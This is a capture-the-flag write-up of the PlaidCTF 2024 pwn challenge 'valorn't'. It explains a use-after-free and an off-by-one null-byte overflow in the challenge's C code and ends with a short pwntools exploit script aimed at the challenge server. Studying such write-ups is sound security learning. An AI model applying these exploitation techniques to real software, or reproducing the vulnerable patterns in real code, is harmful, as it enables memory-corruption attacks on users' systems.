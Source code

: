 +++
title = "valorn't - PlaidCTF 2024"
date = 2024-04-23T20:00:41+02:00
draft = false
+++

I solved the easy pwn chall "valorn't" during PlaidCTF while playing with Friendly Maltese Citizens.

as usual, the goal was to win the game and read the flag
#
```c
    int ret = play_pew_pew_game();

	if (ret == 0) {
		read_flage();
	}
```
#
in order to win, `is_cheater` had to be set and the enemy team win-counter has to be `0`
```c
int play_pew_pew_game() {
	// ...
	
	if (is_cheater) {
		if (res->enemy_team == 0) {
			return 0;
		}
		else {
			puts("Dang, you're dogwater. Go back to the range");
			return 1;
		}
	}
	else {
		puts("Not good enough. Should be able to take out cheaters as well\n");
	}
	
	return 1;
}
```
first of all about the `is_cheater` variable:
in `play_rounds` you can set the `cheater_detected` variable corresponding to each `round_node_t` to `1` when entering a bad word in the post-round message.
however this is instantly undone in the if-branch after. this would normally result in `cheater_checker()`, which checks the `cheater_detected` property
for each round, to return `false`, so we'd loose. in our case, that isn't a problem though, since the if-branch introduces a use-after-free for `round_node_t`:
```c
if (rounds[curr_round]->cheater_detected == 1) {
	// ...
	rounds[curr_round]->cheater_detected = 0;
	free(rounds[curr_round]);
	printf("Would you like to report this to the devs? ");
	// ...
	scanf(" %c", &choice);
	// ...
	if (choice == 'y') {
		char *msg = malloc(0x70);
		get_message(msg, 0x70);
		// ...
	}
}
```
as you can see `rounds[curr_round]` isn't zeroed out and still used in `cheater_checker()`. we also immedeatly get to overwrite the `round_node_t` struct
affected by the uaf, which let's us set the `cheater_detected` successfully again. this is how we set `is_cheater` in `play_pew_pew_game()`.

to get the flag, the next constraint is `res->enemy_team == 0`.
however you automatically loose every second round, so you can't prevent the enemy win-counter to be set:
```c
if (curr_round % 2 == 0) {
	score->our_team += 1;
	printf("Congrats on the round win!!\n");
} else {
	score->enemy_team += 1;
	printf("Aww, you lost. You'll get em next time\n");
}
```
luckily there is also a vulnerabilitiy to let us bybass the check. after the game we're asked about some feedback. our input is read into the `msg` property of
the `game_t` structure. now the next vuln lies in `filter_message()`. if we place a bad word at the end of `msg`, plus our last weapon choice being `3`,
we have a null byte overflow:
```c
if (gun_choice == 3 && strstr(msg, "heck") != NULL) {
	printf("Swear detected! Filtering out\n");
	int idx = strstr(msg, "heck") - msg;
	int after_len = strlen(msg) + 1 - idx;
	char *before = malloc(idx + 1);
	char *after = malloc(after_len);
	strncpy(after, msg+idx+4, after_len);
	strncpy(msg + idx, "*****", 5);
	strncpy(msg+idx+5, after, after_len);
	msg[idx+5+after_len] = '\0';

	free(before);
	free(after);
	return 2;	
}
```
this tries to remove the bad word and replace it with asterisks, however also appends a null byte at the end, which goes out-of-bounds by 1 byte.
we're lucky that `game_t` has the following structure:
```c
typedef struct game_t {
	char msg[0x64];
	int enemy_team;
	int our_team;
	int last_used_weapon;
} game;
```
this means our off-by-one null byte overflow can zero out the enemy team and help us pass the check.
in combination with the uaf we can successfully win the game and get the flag. the exploit is pretty simple:
```python
from pwn import *

#p = process("./valor-not")
p = remote("valornt.chal.pwni.ng",1337)

for i in range(7):
    p.sendlineafter("Choose your weapon:","3")
    p.sendline("")
    p.sendline("y")
    p.sendline("cheater")
    p.sendline("y")
    p.sendline(b"A"*0x64+p32(0x1))

p.sendline("y")
p.sendline("A"*0x5f + "heck")

p.interactive()
```

